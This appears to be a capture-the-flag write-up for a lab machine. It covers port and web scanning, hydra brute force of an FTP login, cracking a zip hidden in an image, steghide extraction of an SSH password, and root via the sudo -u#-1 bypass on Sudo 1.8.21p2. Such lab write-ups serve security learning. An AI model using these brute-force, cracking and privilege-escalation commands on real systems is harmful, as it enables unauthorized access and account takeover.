export ip=10.10.216.240

# information gathering

## tool - nmap
- `sudo nmap -sS $ip`
  - 3 ports: 32, 22, 80

## tool - nikto
- `nikto -host $ip`
  - apache version: Apache/2.4.29

## tool - gobuster
- `gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://$ip | tee gobuster.log`

## tool - hydra
- `hydra -l chris -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt ftp://$ip | tee hydra.log`

# process
- the home page is asking to change the user agent of the request to access another page
- considering the name of the agent displayed on the home page is R, it's likely that all the agents are going to have one letter names, so tried agent names such as A, B, C and we go the first 3 answers.
- the page after redirection says the password is weak, so trying hydra on that user
- ftp: log in using the cracked password for user chris and download all the files we can view in the dir
- the text file says the password is in the image, so trying to find that using an image manipulation tool
- so it's obvious that one of these images has another image in it and the other one a password text/file
- trying to unzip both files and using steghide
  - steghide needs password and unzip says there is extra bytes before the archived data rendering me unable to extract it. But it shows another filename while trying to extract.
  - `dd if=cutie.png bs=1 skip=34562 > out.zip`
  - can use `binwalk -e cutie.png` to get this as well
  - tried to extract this zip file, but this needs password as well.
  - so using zip2john to get the hash and then using john to crask the hash
    - `zip2john ../tmp/fixed.p7z > cutie_hash.txt`
    - `john --wordlist=/usr/share/wordlists/rockyou.txt cutie_hash.txt`
  - extracted the text file with the message to agent r
    - there was a string which was encoded using base64, so decoded that
      - echo "QXJlYTUx" | base64 -d
      - this gets us the password for steghide
    - `steghide extract -sf ../tmp/cute-alien.jpg`
      - this gets us a new file and this file has username and password for a new user. This username and password can be used to login to ssh.(hackerrules!)
- user flag is located at the ssh users home dir
- there is another image file in this home dir. and the tryhackme clue is on point, just do a reverse google image search and you will get the answer for the next question
- ran linpease.sh after transferring it to $ip and it revealed that sudo version is old and is vulnerable.
  - `sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"`
  - out puts: Sudo version 1.8.21p2
  - this means this command will give you root shell: `sudo -u#-1 /bin/bash`
  - the roots home dir has both the 2 remaining answers we need to finish this ctf